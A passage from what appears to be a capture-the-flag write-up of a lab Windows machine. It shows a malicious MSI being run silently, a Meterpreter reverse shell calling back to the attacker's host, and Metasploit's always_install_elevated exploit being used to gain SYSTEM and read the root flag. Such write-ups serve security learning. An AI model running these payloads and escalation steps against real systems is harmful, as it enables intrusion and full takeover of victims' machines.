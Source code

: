 Run the uploaded msi before as follow:
```console
PS C:\Users\Phoebe\Downloads> msiexec /quiet /qn /i alwe.msi
```

And we pop meterpreter shell:
```
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.14:1111 -> 10.10.10.239:50046) at 2021-05-08 02:30:58 +0300

meterpreter > 
```

2. Use ```always_install_elevated``` post exploitiation:
```console
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use exploit/windows/local/always_install_elevated
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > set session 2
session => 2
msf6 exploit(windows/local/always_install_elevated) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(windows/local/always_install_elevated) > exploit
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\QMkgOupD.msi ...
[*] Executing MSI...
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 3 opened (10.10.14.14:4444 -> 10.10.10.239:50050) at 2021-05-08 02:33:25 +0300

meterpreter > shell
Process 760 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

And we get ```nt authority\system```.

And we can get the root flag ```35a436ab92503cfe670df325ea7a020d```:
```
C:\WINDOWS\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
35a436ab92503cfe670df325ea7a020d
```